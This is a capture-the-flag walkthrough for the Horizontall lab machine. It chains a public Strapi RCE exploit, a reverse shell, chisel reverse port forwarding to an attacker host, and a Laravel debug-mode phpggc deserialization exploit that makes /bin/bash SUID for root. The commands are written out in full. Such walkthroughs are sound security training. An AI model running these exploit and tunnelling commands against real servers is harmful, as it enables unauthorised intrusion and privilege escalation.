 # Horizontall

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.249
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 00:38 EDT
Nmap scan report for 10.129.84.249
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Add `horizontall.htb` to our `/etc/hosts` file to view the website.

### Horizontall Subdomain

This is a typical corporate website advertising a product:

<figure><img src="../../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

Viewing the page source, we can see a small interesting bit here:

{% code overflow="wrap" %}
```markup
<body><noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id="app"></div><script src="/js/chunk-vendors.0e02b89e.js"></script><script src="/js/app.c68eb462.js"></script></body>
```
{% endcode %}

I don't usually come across this, and it appears to be intentionally left there by the creator because the message is customised. We can try to view the JS code that's within this, and perhaps we would find something new. I searched for the box name, and found a new subdomain within the `app.js` file:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Interesting! We can add that to our `hosts` file and view it.&#x20;

### API Reviews

This is what we see when we visit that page:

<figure><img src="../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

When we head to the `/reviews` directory, we would see some JSON

<figure><img src="../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

I ran `gobuster` to scan the directories present on this website and check if we can find anything new.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://api-prod.horizontall.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 00:47:53 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

Viewing `/admin` would bringus to a `strapi` login page:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Googling for exploits pertaining to `strapi` shows this:

{% embed url="https://www.exploit-db.com/exploits/50239" %}

Running the script would spawn a "terminal" for us and also reset the administrator password.

<figure><img src="../../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

Great! We have RCE. Now, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

Grab the user flag within the `developer` user home directory.

## Privilege Escalation

### Port Forwarding

Within the user's home directory, there are some file regarding a project:

```
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
```

Since there is a PHP file, there might be another application running on another port. We can run `netstat` to check this:

```
strapi@horizontall:/home/developer$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1786/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

We can spawn another shell to port forward this using `chisel`. Since the `strapi` has a home directory, adding an `authorized_keys` file is pretty easy. Then, I downloaded `chisel` via `wget` and ran these commands:

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
chisel client 10.10.14.2:5555 R:8000:127.0.0.1:8000
```

Then we can visit the page!&#x20;

### Laravel Debug RCE

The website just has the default Laravel page:

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

We can run a directory scan to see what's available.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://localhost:8000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 01:27:23 Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 500) [Size: 616204]
```

Interesting. Viewing the `/profiles` leads to a 500 error and brings us to a debug page.

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

This application enabled the Debug mode and also had Laravel v8 running. It appears to be vulnerable to an older exploit that allows RCE through Laravel Debug mode.

{% embed url="https://github.com/ambionics/laravel-exploits" %}

This exploit uses `phpggc` to create a malicious serialised PHP file that would allow us to execute commands. So, we need to download `phpggc` to the machine and run the following command:

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o id.phar monolog/rce1 system id
```

The first part would allow us to create a `phar` file that executes `id` on the system. When we run the exploit, this is what we would get:

```
$ python3 laravel.py http://127.0.0.1:8000 id.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Works! Now we just need to specify a longer command. In this case, I decided to make `/bin/bash` an SUID binary. We just need to run these commands again

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o suid.phar --fast-destruct monolog/rce1 system 'chmod u+s /bin/bash'
python3 laravel.py http://127.0.0.1:8000 suid.phar
```

Then we can easily get a root shell on the machine.

```
strapi@horizontall:~$ /bin/bash -p
bash-4.4# id
uid=1001(strapi) gid=1001(strapi) euid=0(root) groups=1001(strapi)
```

Rooted!
